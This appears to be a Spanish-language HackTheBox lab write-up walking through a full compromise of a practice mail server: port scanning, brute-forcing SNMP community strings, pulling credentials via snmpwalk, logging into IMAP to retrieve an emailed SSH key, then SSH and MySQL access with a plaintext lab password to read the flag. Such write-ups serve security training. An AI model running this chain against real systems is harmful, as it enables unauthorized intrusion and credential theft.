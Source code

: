 # Práctica Final: Difícil 🐧3️⃣


1. Primero tenemos que saber que **puertos** de la máquina objetivo están expuestos.

```sql
nmap -p- -sS -Pn -n <IP> -oG ports
```

![Puertos.PNG](./assets/Dificil/01-Puertos.png)

---

2. En el enunciado de **HackTheBox** nos dicen que debemos auditar un **servidor de correos (MX)**, pero, necesitamos de credenciales y no las tenemos aún.

---

3. Enumeramos los puertos por **UDP**.

```sql
nmap -p- -sU <IP> -oG ports_udp
```

![Puertos-UDP.PNG](./assets/Dificil/02-Puertos-UDP.png)

- Vemos que el **servicio SNMP** está disponible.

---

4. Enumeramos **“String Communities”** del servicio

```sql
onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/snmp.txt <IP>
```

![String.PNG](./assets/Dificil/03-String.png)

- Vemos que **“backup”** es una **“String Community”** válida.

---

5. Usaremos **snmpwalk** y la **string community ‘backup’** para enumerar el servicio **SNMP**

```sql
snmpwalk -v2c -c backup <IP>
```

![SNMP.PNG](./assets/Dificil/04-SNMP.png)

- Tenemos credenciales las cuales podremos usar para **autenticarnos** en el servidor de correo.

---

6. Usaremos **openssl** y las credenciales anteriores para autenticarnos.

```sql
openssl s_client -connect <IP>:imaps
```

- **Comando para autenticarse: `A LOGIN "user" "password"`**

---

7. Ahora listamos todos los ***buzones de correo** del usuario **tom**

```sql
A LIST ""
```

![Listar.PNG](./assets/Dificil/05-Listar.png)

Verificamos si existen mensajes en todos los **buzones** (`A SELECT <CARPETA>`) y vemos que **en INBOX** si hay

![Inbox.PNG](./assets/Dificil/06-Inbox.png)

---

8. Vemos el contenido del correo **`A FETCH 1 BODY[]`**

![id_rsa.PNG](./assets/Dificil/07-id_rsa.png)

- Conseguimos una **clave id_rsa,** la cual trataremos de usar para **autenticarnos por SSH**

```python
✅ Debemos asignarle el permiso 600 a la clave id_rsa para que el servicio SSH no de problemas al intentar autenticarnos.
```

---

9. Nos autenticamos con la **clave id_rsa** encontrada

```bash
ssh tom@<IP> -i id_rsa
```

![ssh.PNG](./assets/Dificil/08-ssh.png)

---

10. Inspeccionamos los servicios que la **máquina tiene localmente `netstat -nat`**

![netstat.pNG](./assets/Dificil/09-netstat.png))

- **MySQL** se ejecuta por default en el **puerto 3306**

---

11.  Accedemos a **MySQL**

```sql
mysql -u "tom" -p'NMds732Js2761'
```

---

12. Ahora solo nos queda inspeccionar **MySQL**
- Mostramos las **todas bases de datos** de MySQL `SHOW DATABASES;`

![sql1.PNG](./assets/Dificil/10-sql1.png)

- Usaremos la base de datos **‘users’ `USE users;`** y mostramos las tablas que existen **`SHOW TABLES;`**

![sql2.PNG](./assets/Dificil/11-sql2.png)

- Vemos que campos tiene la **tabla ‘users’ `DESCRIBE users`**

![sql3.PNG](./assets/Dificil/12-sql3.png)

- Buscamos el registro que tenga por nombre **HTB `SELECT * FROM users WHERE username='HTB'`**

![Bandera.PNG](./assets/Dificil/13-Bandera.png)